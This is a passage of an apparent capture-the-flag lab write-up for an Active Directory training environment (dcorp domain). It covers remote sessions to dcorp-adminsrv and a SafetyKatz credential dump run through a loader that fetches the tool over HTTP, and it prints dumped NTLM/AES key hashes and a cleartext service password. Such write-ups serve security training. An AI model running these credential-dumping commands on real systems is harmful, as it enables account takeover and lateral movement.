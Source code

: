 Remembering that we already know credentials for svcadmin user using Safetykatz, we can start a session as adminsrv

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv
```

and trying to execute: `vault::cred` and `vault::list` , we discover that the answer is regards XXXXXXXXXXX

### Flag 13 \[dcorp-adminsrv] - NTLM hash of srvadmin extracted from dcorp-adminsrv 🚩

We already know credentials exacted using Safetykatz: `C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`

```powershell
Authentication Id : 0 ; 5853380 (00000000:005950c4)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:22:58 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1115

         * Username : srvadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
           rc4_hmac_nt       a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old      a98e18228819e8eec3dfa33cb68b0728
           rc4_md4           a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_nt_exp   a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old_exp  a98e18228819e8eec3dfa33cb68b0728
```

### Flag 14 \[dcorp-adminsrv] - NTLM hash of websvc extracted from dcorp-adminsrv 🚩

Here below the websvc's ntlm hash:

```powershell
Authentication Id : 0 ; 138873 (00000000:00021e79)
Session           : Service from 0
User Name         : websvc
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:48 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1114

         * Username : websvc
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : AServicewhichIsNotM3@nttoBe
         * Key List :
           aes256_hmac       2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7
           aes128_hmac       86a353c1ea16a87c39e2996253211e41
           rc4_hmac_nt       cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_old      cc098f204c5887eaa8253e7c2749156f
           rc4_md4           cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_nt_exp   cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_old_exp  cc098f204c5887eaa8253e7c2749156f
```

